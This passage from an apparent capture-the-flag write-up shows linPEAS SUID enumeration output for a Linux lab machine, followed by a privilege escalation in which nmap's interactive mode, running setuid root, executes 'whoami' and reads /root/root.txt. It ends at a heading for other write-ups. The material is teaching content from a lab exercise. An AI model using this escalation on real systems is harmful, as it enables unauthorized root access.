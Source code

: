 ```
                      ╚════════════════════════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root root 63K Apr 14  2008 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-- 1 root fuse 20K Feb 26  2008 /bin/fusermount
-rwsr-xr-x 1 root root 25K Apr  2  2008 /bin/su
-rwsr-xr-x 1 root root 80K Apr 14  2008 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 31K Dec 10  2007 /bin/ping
-rwsr-xr-x 1 root root 27K Dec 10  2007 /bin/ping6
-rwsr-xr-x 1 root root 64K Dec  2  2008 /sbin/mount.nfs
-rwsr-xr-- 1 root dhcp 2.9K Apr  2  2008 /lib/dhcp3-client/call-dhclient-script (Unknown SUID binary!)
-rwsr-xr-x 2 root root 106K Feb 25  2008 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerableedit
-rwsr-sr-x 1 root root 7.3K Jun 25  2008 /usr/bin/X
-rwsr-xr-x 1 root root 8.4K Nov 22  2007 /usr/bin/netkit-rsh
-rwsr-xr-x 1 root root 37K Apr  2  2008 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 13K Dec 10  2007 /usr/bin/traceroute6.iputils
-rwsr-xr-x 2 root root 106K Feb 25  2008 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 12K Nov 22  2007 /usr/bin/netkit-rlogin
-rwsr-xr-x 1 root root 11K Dec 10  2007 /usr/bin/arping
You own the SUID file: /usr/bin/at
-rwsr-xr-x 1 root root 19K Apr  2  2008 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 28K Apr  2  2008 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 763K Apr  8  2008 /usr/bin/nmap
-rwsr-xr-x 1 root root 24K Apr  2  2008 /usr/bin/chsh
-rwsr-xr-x 1 root root 16K Nov 22  2007 /usr/bin/netkit-rcp
-rwsr-xr-x 1 root root 29K Apr  2  2008 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 46K Mar 31  2008 /usr/bin/mtr
-rwsr-sr-x 1 libuuid libuuid 13K Mar 27  2008 /usr/sbin/uuidd
-rwsr-xr-- 1 root dip 263K Oct  4  2007 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-xr-- 1 root telnetd 5.9K Dec 17  2006 /usr/lib/telnetlogin
-rwsr-xr-- 1 root www-data 11K Mar  9  2010 /usr/lib/apache2/suexec
-rwsr-xr-x 1 root root 4.5K Nov  5  2007 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 162K Apr  6  2008 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 9.4K Aug 17  2009 /usr/lib/pt_chown  --->  GNU_glibc_2.1/2.1.1_-6(08-1999)
-r-sr-xr-x 1 root root 14K Nov  3  2020 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 9.4K Nov  3  2020 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
```
There is SUID set for nmap. I am wondering if it is possible to run a command locally using nmap and, therefore, be able to run a command as root:
```
sh-3.2$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
root
system() execution of command failed
nmap> !cat /root/root.txt
e[...SNIP...]9
```
Thanks to the interactive mode of nmap, I am able to execute any commands as root, so I can get the flag!
## Learning from other writeups
### Official writeup